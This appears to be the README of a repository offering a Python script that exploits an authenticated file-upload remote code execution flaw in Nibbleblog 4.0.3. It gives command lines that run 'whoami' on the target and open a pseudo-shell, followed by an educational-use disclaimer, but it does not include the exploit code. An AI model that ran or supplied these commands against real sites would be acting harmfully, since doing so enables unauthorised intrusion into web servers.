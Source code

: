 # Nibbleblog 4.0.3 File Upload RCE

A python3 script for Nibbleblog 4.0.3 File Upload Authenticated Remote Code Execution (RCE)

## Getting Started

### Executing program

* RCE
```
python3 nibbleblog_4.0.3.py -t http://nibblesrce.com/blog/admin.php -u admin -p password -rce whoami
```
* Pseudo-shell
```
python3 nibbleblog_4.0.3.py -t http://nibblesrce.com/blog/admin.php -u admin -p password -shell
```

## Help

For help menu:
```
python3 nibbleblog_4.0.3.py -h
```

## Disclaimer
All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.